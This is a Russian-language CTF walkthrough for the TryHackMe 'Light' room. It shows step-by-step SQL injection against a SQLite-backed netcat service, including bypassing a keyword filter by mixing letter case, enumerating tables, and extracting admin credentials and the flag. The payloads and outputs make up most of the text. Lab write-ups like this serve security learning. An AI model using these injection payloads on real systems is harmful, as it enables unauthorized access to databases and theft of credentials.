

# Writeup: Light

> I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using **nc MACHINE_IP 1337**
You can use the username smokey in order to get started.  

Из описания задачи нам известно, что на порту 1337 крутится какое-то приложение для работы с БД. Предлагаю не сканировать порты, некоторая информация у нас уже есть.  

Что нам известно:
- приложение доступно по порту 1337
- юзер - smokey  

Как нам и предлагают, мы подключимся к приложению через netcat
```sh
nc 10.114.131.160 1337
```
После подключения мы видим приветствие от БД и приглашение ввести username  
  

Так как нам предлагается username, мы его сразу введем. Также попробуем какие-то произвольные данные.  
По результатам проверки мы установили, что на username smokey приложение отдает пароль, предположительно, самого пользователя smokey. На вводы произвольных данных приложение нам отвечает, что такой пользователь не найден:
```sh
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: ddd
Username not found.
```
Отличная отправная точка!  

Сама задача нам намекает на SQLi в приложении. Попробуем, по классике проверки SQLi, добавить *'* в конец нашего запроса:
```sh
Please enter your username: smokey'
Error: unrecognized token: "'smokey'' LIMIT 30"
```

Ответ приложения подтверждает наличие SQLi. Попробуем использовать другую полезную нагрузку:
```sh
Please enter your username: ' UNION SELECT * FROM users '
Ahh there is a word in there I don't like :(
```

Из ответа приложения становится понятно, что разработчик побеспокоился о безопасности базы данных и фильтрует вводимые пользователем данные. А что если мы поиграем с регистром операторов?
```sh
Please enter your username: ' UniOn SelEct * FrOm users '
Error: no such table: users
```

Теперь нам становится понятно, что защиту можно обойти, играя с регистром операторов в запросе. Далее определим Базу данных, хотя по прошлому ответу приложения становится понятно, что это SQLite3. Для подтверждения теории попробуем сразу узнать ее версию:
```sh
Please enter your username: ' UniOn SeleCt sqlite_version() '
Password: 3.31.1
```

Да, ожидания подтвердились, приложение использует SQLite3 в качестве базы данных. Попробуем узнать, какие есть таблицы в базе:
```sh
Please enter your username: ' UniOn SeLect name FrOm sqlite_master '
Password: admintable
```

Отлично, теперь можем узнать запрос, которым была создана таблица, что бы определить доступные поля:
```sh
Please enter your username: ' UniOn SeleCt sql From sqlite_master '
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

Так как мы смогли получить информацию о таблице admintable, мы сможем получить и содержимое таблицы:
```sh
Please enter your username: ' UniOn SelEct username From admintable '
Password: TryHackMeAdmin
```

В ходе выполнения кода мы получили имя пользователя **TryHackMeAdmin**. Попробуем узнать его пароль:
```sh
Please enter your username: ' UniOn SeleCt password FrOm admintable Where username='TryHackMeAdmin
Password: mamZtAuMlrsEy5bp6q17
```

Отлично! Мы получили пароль **mamZtAuMlrsEy5bp6q17**  
Осталось только получить сам флаг:
```sh
Please enter your username: 'UniOn SeleCt password FroM admintable WHERE nOt username='TryHackMeAdmin
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```
Единственно, тут мне лично самому не сильно нравится, что мы таким грубым способом вытащили наш флаг. По этой причине я сделал еще одну проверку, что бы лично убедиться в этом(в действительности в рамках CTF это уже лишнее, так как все флаги мы уже собрали, проверку выполнил чисто для себя)
```sh
Please enter your username: ' UniOn SelEct username FroM admintable Where password='THM{SQLit3_InJ3cTion_is_SimplE_nO?}
Password: flag
```

### Итоги
В ходе выполнения CTF нам удалось внедрить произвольный запрос к базе данных и получить необходимую для нас информацию, а именно найти таблицу в бд и достать доступы пользователя(в нашем случае админа)  

### Инструменты, которые нам потребовались в ходе работы:
- netcat  

### Статье по теме
- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [OWASP cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [OWASP A5 2025](https://top10.owasp.org/2025/A05_2025-Injection/)
